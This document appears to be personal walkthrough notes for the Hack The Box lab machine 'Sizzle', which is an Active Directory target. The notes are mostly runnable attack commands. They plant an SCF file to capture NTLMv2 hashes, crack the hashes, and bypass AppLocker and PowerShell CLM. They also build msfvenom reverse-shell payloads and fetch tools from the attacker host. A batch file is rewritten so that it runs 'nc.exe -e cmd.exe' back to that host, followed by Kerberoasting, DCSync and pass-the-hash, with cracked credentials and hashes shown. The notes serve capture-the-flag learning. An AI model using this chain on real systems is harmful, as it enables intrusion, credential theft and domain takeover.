# Summary


## about target

tip:  10.129.74.250

hostname:  Sizzle

Difficulty:  Insane


## about attack

+ gobuster, scan the IIS server with the IIS list 
+ check smbshare and permission(writable)
+ scf attack to steal the ntlmv2
+ applocker bypass, **key point to root**.
+ powershell CLM bypass, **key point to root**.
+ Kerberoast with creds param
+ port forward, msf  socks/meterpreter portfwd/chisel 
+ dcsync attack
+ file enum, c:\windows\system32\file.txt
+ privesc, write permission of scripts(bat); powershell encode and write to file.


**attack note**

```bash
Sizzle / 10.129.117.179

----Interesting 
# from enum4linux
Domain Name: HTB
Domain Sid: S-1-5-21-2379389067-1826974543-3574127760

# from ldapsearch nameingcontexts
namingContexts: DC=HTB,DC=LOCAL

# from cme policy enum
Windows 10.0 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)

# subdomain from dig
sizzle.htb.local

# smb share, department share: userlist and ZZ_ARCHIV(pptx,mp3,ram,doc; not sure what it is)
users.txt

# amanda creds, from scf attack, hash crack
amanda:Ashare1972
mrlky:Football#7

----Enum
enum4linux -a $tip | tee enum4linux.log

crackmapexec smb $tip -u '' --pass-pol

dig any @$tip htb.local 

# no found.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log  -x html
,txt

# readable: department shares, ipc$
smbmap -H $tip -u null

## mount and check
sudo mount -t cifs   "//$tip/Department Shares" /mnt/sizzle
ls -1 /mnt/sizzle/users > users.txt

find . -type d | while read directory; do 
    touch ${directory}/test 2>/dev/null && echo "${directory} - write file" && rm ${directory}/test; 
    mkdir ${directory}/test 2>/dev/null && echo "${directory} - write dir" && rmdir ${directory}/test; 
done

# one line
find . -type d | while read directory; do touch ${directory}/0xdf 2>/dev/null && echo "${directory} - write file" && rm ${directory}/0xdf; mkdir ${directory}/0xdf 2>/dev/null && echo "${directory} - write directory" && rmdir ${directory}/0xdf; done

# user check, amanda not exist.
crackmapexec smb $tip -u users.txt -p '123456' --shares --continue-on-success

# check walkthrough
## users/public, able to write file. scp attack to obtain ntlm hash.

## hello.scf
[Shell]
Command=2
IconFile=\\10.10.14.90\share\hello.ico
[Taskbar]
Command=ToggleDesktop

## copy to /mnt/sizzle/Users/Public
sudo cp hello.scp /mnt/sizzle/Users/Public

## watch the dir
watch -d "ls /mnt/sizzle/Users/Public"

## start smbshare
smbserver.py -smb2support share ./ &

## crack hash. 
hashcat -m 5600 amanda.ntlmv2 /usr/share/wordlists/rockyou.txt --force

# check creds, amanda
## no winrm
crackmapexec winrm $tip -u 'amanda' -p 'Ashare1972'

## smb, got another share CertEnroll
crackmapexec smb $tip -u 'amanda' -p 'Ashare1972'  --shares
smbmap -H $tip -u amanda -p Ashare197

# enum ad
bloodhound-python -c All -u amanda -p 'Ashare1972' -d htb.local -dc htb.local -ns $tip

ldapsearch -H ldap://$tip -D 'amanda' -w 'Ashare1972' -x -b "DC=htb,DC=local"  | tee ldap.amanda

## kerberoast check, mrlky, http/sizzle
GetUserSPNs.py htb.local/amanda:Ashare1972 -dc-ip $tip -request

----Foothold

-- shell as amanda
# generate key
openssl req -newkey rsa:2048 -nodes -keyout request.key -out request.csr

# evil-winrm with cert
## https://nozerobit.gitbook.io/hacknotes/services/winrm-5985-5986
evil-winrm -S -P 5986 -c certnew.cer -k request.key -i $tip

# Applocker break out
$executioncontext.sessionstate.languagemode

Get-AppLockerPolicy -Effective -XML

-- Bypass CLM
# PsBypassCLM
iwr -uri http://10.10.14.90/bypassclm/PSBypassCLM.exe -outfile psby.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.90 /rport=443 \users\amanda\temp\psby.exe

# msbuild bypass
## https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
msfvenom --platform windows -p windows/meterpreter/reverse_tcp lhost=10.10.14.90 lport=443 -e x86/shikata_ga_nai -i 20 -f csharp -o meterpreter_443.cs -v shellcode 

## copy msf payload to shellcode.xml

## upload to target
iwr -uri http://10.10.14.90/shellcode.xml -outfile shell.xml
copy shell.xml  c:\windows\system32\spool\drivers\color\

c:\windows\microsoft.net\framework\v4.0.30319\msbuild.exe shell.xml


-- Kerberoast
## failed. no output
IEX(New-Object net.webclient).downloadstring('http://10.10.14.90/Invoke-Kerberoast.ps1')

## download 
iwr -uri http://10.10.14.90/rubeus.exe -outfile rb.exe

## copy to C:\Windows\System32\spool\drivers\color, bypass applocker
copy .\rb.exe C:\Windows\System32\spool\drivers\color\
cd C:\Windows\System32\spool\drivers\color
.\rb.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /nowrap
 hashcat -m 13100 -a 0 mrlky.hash /usr/share/wordlists/rockyou.txt

 
## dump creds.
secretsdump.py htb.local/mrlky:'Football#7'@sizzle.htb.local
----System

# clean.bat
## not work, av detected and deleted the file.
msfvenom --platform windows -p windows/meterpreter/reverse_tcp lhost=10.10.14.90 lport=443 -e x86/shikata_ga_nai -i 20 -f exe -o meterpreter443.ex
iwr -uri http://10.10.14.90/meterpreter443.exe -outfile c:\windows\system32\spool\drivers\color\mps.exe

## try nc.exe
iwr -uri http://10.10.14.90/nc.exe -outfile c:\windows\system32\spool\drivers\color\n.exe
## not work, encode things. 
echo '\windows\system32\spool\drivers\color\n.exe -e cmd.exe 10.10.14.90 443' > clean.bat

## powershell encode
echo '\windows\system32\spool\drivers\color\n.exe -e cmd.exe 10.10.14.90 443' | out-file -encoding ASCII  clean.bat

## or append. 
echo ""  | out-file -encoding ASCII -append clean.bat
echo '\windows\system32\spool\drivers\color\n.exe -e cmd.exe 10.10.14.90 443' | out-file -encoding ASCII -append clean.bat

# mrlky dcsync
secretsdump.py -hashes :bceef4f6fe9c026d1d8dec8dce48adef htb.local/mrlky@sizzle.htb.local
psexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 administrator@$tip

```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2022-12-16T12:19:13+00:00; 0s from scanner time.
| tls-alpn:
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_http-title: Site doesn't have a title (text/html).
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2022-12-16T12:19:13+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2022-12-16T12:19:13+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49666/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
```


## ftp

anonymous login, nothing.

```bash
ftp $tip
```


## web 80/443

gobuster 80, nothing found.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log  -x html
,txt

gobuster dir -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u https://$tip -o gobuster-443.log  -x html
,txt
```


**lesson learned** 

scan with IIS list, it's better for iis service.

/usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt

got path /certsrv, which is import after.

```bash
gobuster dir -k  -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -t 50 -u https://$tip:443 -o gobuster-443.log
```




## smb

smb share, found userlist

```bash
smbclient -L $tip
smbmap -H $tip -u null
```


mount and save the username.

```bash
sudo mount -t cifs   "//$tip/Department Shares" /mnt/sizzle
ls -1 /mnt/sizzle/users > users.txt
```


**lesson learned**

check the dir permission, if you have the write permission.

su to root and run,  sudo has no result.

```bash
find . -type d | while read directory; do 
    touch ${directory}/test 2>/dev/null && echo "${directory} - write file" && rm ${directory}/test; 
    mkdir ${directory}/test 2>/dev/null && echo "${directory} - write dir" && rmdir ${directory}/test; 
done

# one line
find . -type d | while read directory; do touch ${directory}/test 2>/dev/null && echo "${directory} - write file" && rm ${directory}/test; mkdir ${directory}/test 2>/dev/null && echo "${directory} - write directory" && rmdir ${directory}/test; done

```




## ad enum

check the password policy. got domain name and windows version.

```bash
crackmapexec smb $tip -u '' --pass-pol
```

 


add the domain name to hosts.

```bash
echo '10.129.74.250 htb.local' | sudo tee -a /etc/hosts
```


enum4linux, not much insteresting thins. 

Only the domain sid and domain name.




ldapsearch, not much things.

```bash
ldapsearch -H ldap://$tip -x -b "DC=htb,DC=local"
ldapsearch -H ldap://$tip -x -s base namingcontexts 
```




dns enum, found subdomain.

Sizzle.htb.local

```bash
dig any @$tip htb.local 
dig axfr @$tip htb.local 
```




## user check

port 88 closed, enum/brute user with cme smb.  kerbrute not work.

```bash
# user check, amanda not exist.
crackmapexec smb $tip -u users.txt -p '123456' --continue-on-success
```

amanda, `STATUS_LOGON_FAILURE` , which means user exists.

--users, if you have creds, use this to enum the domain user.




tried with the kerbrute, it did got the result. weird.

maybe enum via the udp 88.




# Foothold-amanda

## smb scf attack

After checked the walkthrough, key point smb scf attack.

check smb permission. run with root user.

```bash
find . -type d | while read directory; do touch ${directory}/test 2>/dev/null && echo "${directory} - write file" && rm ${directory}/test; mkdir ${directory}/test 2>/dev/null && echo "${directory} - write directory" && rmdir ${directory}/test; done
```


create file and watch the dir.

```bash
sudo touch {/mnt/sizzle/ZZ_ARCHIVE/,/mnt/sizzle/Users/Public/}test.{lnk,exe,dll,ini}

watch -d "ls /mnt/sizzle/Users/Public/*; ls /mnt/sizzle/ZZ_ARCHIVE/test*"
```




file cleaned,  use scf to steal ntlm.

hello.scf

```bash
[Shell]
Command=2
IconFile=\\10.10.14.90\share\hello.ico
[Taskbar]
Command=ToggleDesktop
```


copy scf to smbshare and start smbshare

```bahs
smbserver.py -smb2support share ./ &
sudo cp hello.scp /mnt/sizzle/Users/Public
```

got hash, save to file and crack.

Amanda:Ashare1972

```bash
## crack hash. 
hashcat -m 5600 amanda.ntlmv2 /usr/share/wordlists/rockyou.txt --force
```


check the password.

```bash
crackmapexec smb $tip -u amanda -p 'Ashare1972' --shares
crackmapexec winrm $tip -u amanda -p 'Ashare1972'
```

correct password, not able to winrm. 

`The server did not response with one of the following authentication methods Negotiate, Kerberos, NTLM - actual: ''`




## amanda cred enum

check the smbshare, /certenroll,  found some cert file.

not sure what is these file for.

```bash
smbclient //$tip/CertEnroll -U amanda --password=Ashare1972
```




bloodhound.py enum and ldapsearch

```bash
bloodhound-python -c All -u amanda -p 'Ashare1972' -d htb.local -dc htb.local -ns $tip

ldapsearch -H ldap://$tip -D 'amanda' -w 'Ashare1972' -x -b "DC=htb,DC=local"  | tee ldap.amanda

GetUserSPNs.py htb.local/amanda:Ashare1972 -dc-ip $tip -request
```

found something, 

mrlky user has the dcsync permission. 

mrlky user was able to kerberoast.






## amanda shell

after watched the walkthrough, noticed the https  /certsrv

login with amanda creds,  request a key.


generate key.

```bash
openssl req -newkey rsa:2048 -nodes -keyout request.key -out request.csr
```




click [advanced certificate request](https://sizzle.htb.local/certsrv/certrqxt.asp).

paste the content of csr file.



download the der certificate.



connect via evil-winrm, use the private key and cert.

```bash
# evil-winrm with cert
## https://nozerobit.gitbook.io/hacknotes/services/winrm-5985-5986
evil-winrm -S -P 5986 -c certnew.cer -k request.key -i $tip
```





## Bypass CLM

while login the target, not able to execute the exe file.

powershell clm  and applocker.

```bash
# Applocker break out
$executioncontext.sessionstate.languagemode

Get-AppLockerPolicy -Effective -XML
```






### PsBypassCLM

git, https://github.com/padovah4ck/PSByPassCLM

download psbypassclm.exe and upload.  Build local is better.

```bash
# PsBypassCLM
iwr -uri http://10.10.14.90/bypassclm/PSBypassCLM.exe -outfile psby.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.90 /rport=443 \users\amanda\temp\psby.exe
```




got shell back.




### msbuild bypass clm

```bash
## https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
msfvenom --platform windows -p windows/meterpreter/reverse_tcp lhost=10.10.14.90 lport=443 -e x86/shikata_ga_nai -i 20 -f csharp -o meterpreter_443.cs -v shellcode 

```


download xml and modify the payload, which is generated by msfvenom.

```bash
## copy msf payload to shellcode.xml

## upload to target
iwr -uri http://10.10.14.90/shellcode.xml -outfile shell.xml

c:\windows\microsoft.net\framework\v4.0.30319\msbuild.exe shell.xml
```

got shell back, but not fulllanguage.




copy shell.xml to c:\windows\system32\spool\drivers\color\, run again.

got fulllanguage.




### applocker bypass

check hacktricks

https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs#bypass

after a few check, `c:\windows\system32\spool\drivers\color\` works.

also able to found in the applocker policy xml file.

```bash
Get-AppLockerPolicy -Effective -XML
```


## Kerberoast


### Invoke-kerberoast


```bash
## failed. no output
IEX(New-Object net.webclient).downloadstring('http://10.10.14.90/Invoke-Kerberoast.ps1')
Invoke-Kerberoast -outputformat hashcat |fl

$SecPassword = ConvertTo-SecureString 'Ashare1972' -AsPlainText -force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\amanda', $SecPassword)
Invoke-Kerberoast -Credential $Cred -outputformat hashcat |fl
```




specify the cred, got error.

`ERROR: The term 'Invoke-UserImpersonation' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again`




### local rubeus

upload rubues.exe to c:\windows\system32\spool\drivers\color

```bash
## download 
iwr -uri http://10.10.14.90/rubeus.exe -outfile rb.exe

## copy to C:\Windows\System32\spool\drivers\color, bypass applocker
copy .\rb.exe C:\Windows\System32\spool\drivers\color\
cd C:\Windows\System32\spool\drivers\color
.\rb.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /nowrap
```


error info, add the cred param.

` [X] Error during request for SPN http/sizzle@HTB.LOCAL : No credentials are available in the security package`





```bash
hashcat -m 13100 -a 0 mrlky.hash /usr/share/wordlists/rockyou.txt

mrlky:Football#7
```




### msf  portfwd

```bash
meterpreter > portfwd add -l 389 -p 389 -r 10.129.74.250

meterpreter > portfwd add -l 389 -p 389 -r 10.129.74.250
```

failed, change hosts.



change the hosts,  127.0.0.1 htb.local;

Run again, got hash.

```bash
 GetUserSPNs.py htb.local/amanda:Ashare1972 -dc-ip $tip -request
```




### chisel port fwd

did not try this

```bash
# on kali
chisel server -p 8008 --reverse

# on target 
.\c.exe client 10.10.14.90:8008 R:88:127.0.0.1:88 R:389:localhost:389

# kerberoast with impacket
GetUserSPNs.py -request -dc-ip 127.0.0.1 htb.local/amanda -save -outputfile GetUserSPNs.out 
```


date error. `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`

change date on kali.

```bash
# check date on dc.
date

# change time on kali.
date +%T -s "xx:xx:xx"
```


# Privesc


## Amanda-root

hard to  find this file. did check the walkthrough.













## mrlky dcsync

have mrlky creds, mrlky have the dcsync privilege.

dcsync attack, obtain the creds.

```bash
secretsdump.py htb.local/mrlky:'Football#7'@sizzle.htb.local
```




pass the hash and root.

```bash
psexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 administrator@$tip
```


## hash file.txt

on amanda session, it's hard to enum this file,  which contains hash.

c:\windows\system32\file.txt




pass the hash to dump creds with mrlky.

```bash
secretsdump.py -hashes :bceef4f6fe9c026d1d8dec8dce48adef htb.local/mrlky@sizzle.htb.local

# pass the admin hash, got system.
psexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 administrator@$tip
```


# Beyond root

## wpeas enum

did found the clean.bat and applocker policy.

But, key point is to bypass the applocker and run this.

wpeas.exe enum 





